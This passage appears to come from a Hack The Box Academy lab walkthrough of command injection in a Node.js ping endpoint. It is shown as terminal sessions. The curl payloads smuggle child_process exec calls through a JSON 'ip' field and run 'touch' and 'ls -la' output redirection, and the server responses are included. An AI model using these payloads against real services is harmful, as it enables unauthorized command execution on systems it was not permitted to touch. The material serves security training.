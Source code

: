 ```shell
curl http://127.0.0.1:21440/ping -X POST -d 'debug=true&ip={"ip":"127.0.0.1\"}%27).ip; const { exec } = require(%27child_process%27); exec(%27touch INJECTED%27);//%27).ip;"}'
```

```
┌─[eu-academy-1]─[10.10.14.81]─[htb-ac413848@htb-shjpzcukev]─[~]
└──╼ [★]$ curl http://127.0.0.1:21440/ping -X POST -d 'debug=true&ip={"ip":"127.0.0.1\"}%27).ip; const { exec } = require(%27child_process%27); exec(%27touch INJECTED%27);//%27).ip;"}'

<!DOCTYPE html><head><meta charset="UTF-8"><title>Basic Linux Commands</title><link rel="stylesheet" href="./style.css"></head>
<SNIP>
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.032 ms

--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.032/0.032/0.032/0.000 ms
</code></pre>
```

Code: shell

```shell
ls | grep "INJ.*"
```

```
┌─[eu-academy-1]─[10.10.14.81]─[htb-ac413848@htb-shjpzcukev]─[~]
└──╼ [★]$ ls | grep "INJ.*"

INJECTED
```

Subsequently, students need to find a public file/directory where they can direct output, and after fuzzing, students will find out that the `css` directory is publicly accessible, thus, a file named "out.txt" will be created on the spawned target under the directory `/css/` with the contents of it using the `ls` command:

Code: shell

```shell
curl http://STMIP:STMPO/ping -X POST -d 'debug=true&ip={"ip":"127.0.0.1\"}%27).ip; const { exec } = require(%27child_process%27); exec(%27ls -la ./> css/out.txt%27);//%27).ip;"}'
```

```
┌─[eu-academy-1]─[10.10.14.81]─[htb-ac413848@htb-shjpzcukev]─[~]
└──╼ [★]$ curl http://178.62.88.144:30120/ping -X POST -d 'debug=true&ip={"ip":"127.0.0.1\"}%27).ip; const { exec } = require(%27child_process%27); exec(%27ls -la ./> css/out.txt%27);//%27).ip;"}'

<!DOCTYPE html><head><meta charset="UTF-8"><title>Basic Linux Commands</title><link rel="stylesheet" href="./style.css"></head>
<SNIP>
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.013 ms

--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.013/0.013/0.013/0.000 ms
```
